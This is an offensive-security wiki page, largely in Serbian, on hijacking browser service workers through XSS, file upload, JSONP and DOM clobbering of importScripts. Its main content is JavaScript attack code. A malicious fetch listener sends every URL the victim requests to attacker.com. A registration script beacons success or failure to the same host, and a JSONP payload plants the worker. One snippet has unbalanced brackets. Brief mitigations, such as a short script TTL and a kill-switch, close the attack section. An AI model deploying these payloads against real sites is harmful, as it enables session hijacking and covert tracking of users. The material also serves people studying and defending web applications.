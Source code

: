 # Abusing Service Workers

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Service worker** je skripta koju vaš pregledač pokreće u pozadini, odvojeno od bilo koje web stranice, omogućavajući funkcije koje ne zahtevaju web stranicu ili interakciju korisnika, čime se poboljšavaju **offline i pozadinske obrade** mogućnosti. Detaljne informacije o service worker-ima možete pronaći [ovde](https://developers.google.com/web/fundamentals/primers/service-workers). Iskorišćavanjem service worker-a unutar ranjave web domene, napadači mogu preuzeti kontrolu nad interakcijama žrtve sa svim stranicama unutar te domene.

### Checking for Existing Service Workers

Postojeći service worker-i mogu se proveriti u sekciji **Service Workers** na **Application** tabu u **Developer Tools**. Druga metoda je poseta [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) za detaljniji pregled.

### Push Notifications

**Dozvole za push obaveštenja** direktno utiču na sposobnost **service worker-a** da komunicira sa serverom bez direktne interakcije korisnika. Ako su dozvole odbijene, to ograničava potencijal service worker-a da predstavlja kontinuiranu pretnju. S druge strane, davanje dozvola povećava bezbednosne rizike omogućavanjem prijema i izvršavanja potencijalnih eksploatacija.

## Attack Creating a Service Worker

Da biste iskoristili ovu ranjivost, potrebno je da pronađete:

* Način da **otpremite proizvoljne JS** datoteke na server i **XSS za učitavanje service worker-a** otpremljene JS datoteke
* **Ranjivu JSONP zahtev** gde možete **manipulisati izlazom (sa proizvoljnim JS kodom)** i **XSS** da **učitate JSONP sa payload-om** koji će **učitati zlonameran service worker**.

U sledećem primeru ću predstaviti kod za **registraciju novog service worker-a** koji će slušati `fetch` događaj i **slati napadačkom serveru svaku preuzetu URL adresu** (ovo je kod koji biste trebali **otpremiti** na **server** ili učitati putem **ranjivog JSONP** odgovora):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
I ovo je kod koji će **registrovati radnika** (kod koji biste trebali moći da izvršite zloupotrebom **XSS**). U ovom slučaju, **GET** zahtev će biti poslat na server **napadača** **obaveštavajući** da li je **registracija** servisnog radnika bila uspešna ili ne:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
U slučaju zloupotrebe ranjivog JSONP krajnjeg tačke, trebali biste staviti vrednost unutar `var sw`. Na primer:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
Postoji **C2** posvećen **iskorišćavanju Service Workers** pod nazivom [**Shadow Workers**](https://shadow-workers.github.io) koji će biti veoma koristan za zloupotrebu ovih ranjivosti.

**Direktiva keširanja od 24 sata** ograničava životni vek zlonamernog ili kompromitovanog **service worker-a (SW)** na najviše 24 sata nakon ispravke XSS ranjivosti, pod pretpostavkom online statusa klijenta. Da bi se smanjila ranjivost, operateri sajtova mogu smanjiti Time-To-Live (TTL) SW skripte. Takođe, programerima se savetuje da kreiraju [**service worker kill-switch**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) za brzu deaktivaciju.

## Zloupotreba `importScripts` u SW putem DOM Clobbering-a

Funkcija **`importScripts`** pozvana iz Service Worker-a može **importovati skriptu iz druge domene**. Ako se ova funkcija pozove koristeći **parametar koji bi napadač mogao** da izmeni, on bi mogao da **importuje JS skriptu iz svoje domene** i dobije XSS.

**Ovo čak zaobilazi CSP zaštite.**

**Primer ranjivog koda:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### Sa DOM Clobbering-om

Za više informacija o tome šta je DOM Clobbering, pogledajte:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Ako je URL/domen koji SW koristi za pozivanje **`importScripts`** **unutar HTML elementa**, **moguće je modifikovati ga putem DOM Clobbering-a** kako bi SW **učitao skriptu sa vašeg domena**.

Za primer ovog, pogledajte referentnu vezu.

## Reference

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
